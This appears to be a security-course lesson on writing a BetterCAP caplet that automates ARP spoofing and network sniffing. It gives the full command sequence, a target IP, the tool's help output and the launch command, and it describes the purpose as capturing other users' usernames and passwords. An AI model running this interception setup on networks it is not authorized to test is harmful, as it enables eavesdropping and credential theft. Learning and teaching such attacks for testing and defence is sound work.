 ```yaml
---
title: Creating a Custom Spoofing Script
type: default
layout: page
---
```


In the previous lessons, we learned how to use BetterCAP to discover all the
clients on our same network, run an ARP Spoofing attack to intercept the data
and then sniff data to see the usernames, passwords and everything that's
getting sent over the network. In order to do this, we have to run a lot
of commands, first of all, we had to run `net.probe on` to turn on the
probe module, we had to set the settings for the `arp.spoof` module, turn
it on and turn the sniffing module on.

Every time you want to run an ARP Spoofing attack and spy your targets, you are
going to do all the steps previously mentioned, or if you would like to make
this process automatically, you can create a caplet, which is exactly what I
want to show you in this lesson.

> A caplet is just a text file that contains all the commands that you want to run
> .

To create a caplet, create a text file using the editor of your choice, emacs,
vim, nano, ed, etcetera and let's go through all the commands we had to run to
create our caplet.

The first thing that we had to run, was `net.probe on`, so let's copy that
command and let's paste it in our text file. The next thing that we made, was
to modify the settings of the _arp.spoof_ module, we executed _set
arp.spoof.fullduplex true_, then we set the target(s) IP with the command
_set arp.spoof.targets 192.168.1.7_ (make sure that every time you run this
caplet, you make sure that the target's IP address stays the same), then, we
turned on the _arp.spoof_ module by executing _arp.spoof on_ and finally we also
run the sniffer by doing _net.sniff on_. You caplet file should look like the
following:

```bash
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.7
arp.spoof on
net.sniff on
```

Once you have finished pasting the commands, we can now save the file, I will
set mine's name as _arp.cap_.

Once we have finished, all we have to do now, is feed the caplet file to
Bettercap before we start it, so all the commands will be executed
automatically. As we currently don't know how to do this, let's execute
_bettercap --help_ to see all the BetterCAP options.

```bash
Usage of ./bettercap:
  -autostart string
        Comma separated list of modules to auto start. (default "events.stream")
  -caplet string
        Read commands from this file and execute them in the interactive session.
  -cpu-profile file
        Write cpu profile file.
  -debug
        Print debug messages.
  -env-file string
        Load environment variables from this file if found, set to empty to disable environment persistence.
  -eval string
        Run one or more commands separated by ; in the interactive session, used to set variables via command line.
  -gateway-override string
        Use the provided IP address instead of the default gateway. If not specified or invalid, the default gateway will be used.
  -iface string
        Network interface to bind to, if empty the default interface will be auto selected.
  -mem-profile file
        Write memory profile to file.
  -no-colors
        Disable output color effects.
  -no-history
        Disable interactive session history file.
  -silent
        Suppress all logs which are not errors.
  -version
        Print the version and exit.
```

The option we want to use is the _-caplet_ option. So, we are going to execute
BetterCAP like we used to do it, first of all, we do _bettercap_ followed by
_-iface_ to specify the interface that is connected to the target network, in my
case it is _enp1s0_ and now, we are going to append _-caplet_ followed by the
path of the file we created previously. If you saved your file in your home
directory, for example, the command will look like this:

```bash
bettercap -iface enp1s0 -caplet ~/arp.cap
```

Once you execute that command, the modules and the settings specified on the
caplet file will be automatically applied.
